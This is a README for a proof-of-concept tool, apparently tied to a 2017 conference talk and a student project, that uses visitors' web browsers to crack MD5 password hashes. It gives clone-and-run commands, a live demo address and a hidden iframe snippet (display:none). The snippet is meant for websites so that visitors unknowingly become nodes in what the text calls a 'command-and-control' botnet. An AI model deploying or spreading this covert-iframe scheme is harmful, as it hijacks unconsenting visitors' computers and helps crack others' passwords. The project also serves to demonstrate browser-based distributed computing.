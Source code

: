 # How to connect to the live demo

//Commands Needed to run//

git clone

cd CSC698Team01--PasswordCracking

npm install

sudo node server.js 73.158.194.215:3000

//Commands Needed to run//

To view your hashes and etc on the network put this into your web browser:

http://73.158.194.215:3000/

To begin mining please go to the following link

http://73.158.194.215:3000/embed/

If you don't have NPM please install it here:

http://blog.teamtreehouse.com/install-node-js-npm-linux













# Distributed Password Cracking


Borrow CPU cycles from visitor's web browsers to crack MD5 password hashes. The worker creates an instance of the node class using socket.io with properties to track the progress of each worker and the chunk of passwords that was distributed. We have a list of passwords and a list of hashed passwords in a file where each worker gets a chunk of passwords to decrypt. We assigned a range of passwords(from the passwords.txt file) based on the number of workers that are connected to the server. We use a set of rules to crack each hashed password. We are using parallel computing when distributing the list of passwords within the workers by chunks. Instead of one worker (cpu) cracking all the passwords, we distribute the list of password within a group of workers. This decreases the time it takes to complete the entire list of passwords. Their browser will receive MD5 hashes and password candidates from a command-and-control server and report back any passwords it cracks for the duration of the time the visitor is browsing the "infected" website.




```html
<!-- add a single iframe embed to *your* website to add all visitors
     as nodes in the password cracking botnet -->
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```

This is proof-of-concept code for the [Browser as Botnet talk](http://radicalnetworks.org/participants/brannon-dorsey) ([video](https://livestream.com/internetsociety/radnets17/videos/164720367)) at [Radical Networks 2017](http://radicalnetworks.org/). As such, it **is not** optimized. There are far [more efficient ways](https://github.com/brannondorsey/naive-hashcat) to crack passwords if that is your goal. This project is intended to illustrate how compute jobs can be massively distributed across browsers.

**DISCLAIMER: This software is for educational purposes only. This software should not be used for illegal activity. The author is not responsible for its use. 

## Getting Started

```bash
# clone this repo
git clone https://github.com/chetanjohal/CSC698_PasswordCracking
cd distributed-password-cracking

# install the dependencies
npm install

# run the command-and-control server
node server.js
```

Navigate to http://localhost:3000 to view the **unprotected** "admin" panel. This microsite allows you to view the activity of your botnet in real-time. To test that your password cracking network is working, open another browser tab to http://localhost:3000/embed. This creates a browser cracking node and launches one web worker per CPU on your machine. You should now see a connected node on the admin panel.

The server distributes password candidates and MD5 hashes to browser clients continuously as they connect. It uses:

- [`data/passwords.txt`](data/passwords.txt): The first 100,000 passwords from the [Rockyou](https://wiki.skullsecurity.org/Passwords) password dictionary
- [`data/hashes.txt`](data/hashes.txt): The `example0.hash` MD5 hashes distributed with [Hashcat](https://hashcat.net/hashcat/)

Cracked passwords are saved to `data/cracked.txt` like so:

```
5f4dcc3b5aa765d61d8327deb882cf99:password
```

Replace `passwords.txt` and `hashes.txt` to use your own password dictionary and MD5 hashes.

### Embedding the `<iframe>`

Once your server is running adding nodes is as easy as including an iframe in your website. For this to work, your node server has to be publicly accessible from the web. That means setting up port forwarding/ssh tunnels or renting a VPS (on AWS or the like) without a firewall on port 3000. Add the below iframe to whatever web page you would like visitors to crack passwords from:

```html
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```
**Note**: The node `server.js` enables CORs by default, but if you are proxying the connection (via Nginx, etc...) you may need to enable CORs on that proxy server as well.

## Future Features

- WebAssembly MD5 hashing. I'm close to this but ran out of time ahead of the talk. I'm reaching near native speeds in my tests, bringing hashrates on my machine from ~700K a second to 5M, nearly an order of magnitude speedup!
- CPU throttling settings

## License and Attribution

This software is released under an MIT license. You are free to use, modify, distribute, and sell it under those terms.
